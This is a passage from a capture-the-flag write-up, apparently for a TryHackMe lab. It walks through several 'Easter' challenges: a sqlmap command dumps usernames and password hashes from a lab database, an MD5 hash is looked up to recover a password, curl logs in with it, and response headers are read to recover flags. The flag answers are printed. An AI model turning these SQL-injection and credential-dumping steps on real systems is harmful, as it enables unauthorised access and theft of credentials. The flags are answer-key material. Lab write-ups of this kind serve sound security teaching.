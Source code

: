 And now, let's dump the content:

~~~
$ python /data/src/sqlmap-dev/sqlmap.py -r login.xml -D THM_f0und_m3 -T user -C username,password --sql-query "select username,password from user"

[REDACTED]

select username,password from user [2]:
[*] DesKel, 05f3672ba34409136aa71b8d00070d1b
[*] Skidy, He is a nice guy, say hello for me
~~~

Search for the `05f3672ba34409136aa71b8d00070d1b` hash on Google, it corresponds to the following password: `cutie`

Now, let's authenticate with `Deskel:cutie`:

~~~
$ curl -s -d "username=DesKel&password=cutie&submit=submit" -X POST http://10.10.62.234/login/ | grep Easter
Easter 5: THM{wh47_d1d_17_c057_70_cr4ck_7h3_5ql}	</body>
~~~

Easter 5: `THM{wh47_d1d_17_c057_70_cr4ck_7h3_5ql}`

# Easter 6

*Hint: Look out for the response header.*

~~~
$ curl -s 10.10.141.149 -D header.txt
$ cat header.txt 
HTTP/1.1 200 OK
Date: Fri, 29 May 2020 21:34:04 GMT
Server: Apache/2.2.22 (Ubuntu)
X-Powered-By: PHP/5.3.10-1ubuntu3.26
Busted: Hey, you found me, take this Easter 6: THM{l37'5_p4r7y_h4rd}
Set-Cookie: Invited=0
Vary: Accept-Encoding
Transfer-Encoding: chunked
Content-Type: text/html
~~~

Easter 6: `THM{l37'5_p4r7y_h4rd}`

# Easter 7

*Hint: Cookie is delicious*

When you visit the home page, you see the following title:

~~~
$ curl -s http://10.10.62.234/ | grep "Who are you"
			<h2> Who are you? Did I invite you?</h2>
~~~
